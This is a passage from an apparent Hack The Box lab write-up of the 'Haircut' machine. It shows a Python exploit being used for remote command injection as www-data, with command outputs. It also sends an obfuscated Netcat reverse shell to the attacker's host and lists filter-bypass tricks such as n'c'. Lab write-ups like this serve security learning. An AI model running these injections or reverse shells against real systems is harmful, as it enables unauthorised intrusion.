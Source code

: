 ```python
        sys.exit(1)

    except Exception as e:
        print(e)
           
main()
```

The `-m c --command <command>` flags allow us to remotely execute commands as www-data.

```bash
python3 haircut.py -t 10.129.224.34 -m c --command "whoami" 

[+] Command injected: whoami

[+] Output:

www-data

python3 haircut.py -t 10.129.224.34 -m c --command "ls -lah"

[+] Command injected: ls -lah

[+] Output:

total 444K
drwxr-xr-x 3 root     root     4.0K May 19  2017 .
drwxr-xr-x 3 root     root     4.0K May 16  2017 ..
-rwxr-xr-x 1 root     root     114K May 15  2017 bounce.jpg
-rwxr-xr-x 1 root     root     164K May 15  2017 carrie.jpg
-rwxr-xr-x 1 root     root      921 May 15  2017 exposed.php
-rwxr-xr-x 1 root     root      141 May 15  2017 hair.html
-rwxr-xr-x 1 root     root      144 May 15  2017 index.html
-rwxr-xr-x 1 root     root     133K May 15  2017 sea.jpg
-rwxr-xr-x 1 root     root      223 May 15  2017 test.html
drwxr-xr-x 2 www-data www-data 4.0K May 22  2017 uploads
```

But let’s simply start a Netcat listener `nc -nlvp 4444` and send a reverse shell with the `-m r` flag.

```bash
python3 haircut.py -t 10.129.224.34 -m r --lhost 10.10.14.42

[+] Command injected: n$@c%09-c%09sh%0910.10.14.42%094444

[+] Check your Netcat listener :D
```

**Note**: Other command bypasses would be `n'c'` and `n\c`. If you want to learn about command obfuscation I highly recommend you the Command Injection module from HTB Academy :D.

Successfully established a reverse shell as www-data, transforming it into a pseudo-interactive TTY with Python.
